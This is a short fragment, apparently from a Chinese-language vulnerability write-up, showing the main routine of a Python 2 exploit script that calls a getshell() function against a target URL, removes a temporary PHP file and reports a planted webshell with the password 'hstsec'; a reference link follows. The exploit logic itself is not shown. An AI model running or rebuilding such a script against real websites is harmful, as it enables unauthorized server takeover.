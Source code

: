 ```python
    start = time.time()
    url = sys.argv[1]
    if url[-1] != '/': url += '/'
    ok = getshell(url)
    try:
        os.remove('oneok\'.php')
    except Exception:
        print '\n[x] 删除临时文件失败,请手工删除!'
    if ok:
        print '\n[!] 爷,人品暴发了，成功得到Shell：\n\n%s 密码：%s' % (ok, 'hstsec')
    else:
        print '\n[x] 报告大爷,本站不存在此漏洞!'
    print '\n报告爷,脚本执行完毕,用时:', time.time() - start, '秒!'
```


四、参考链接

https://blog.csdn.net/Fly_hps/article/details/80582751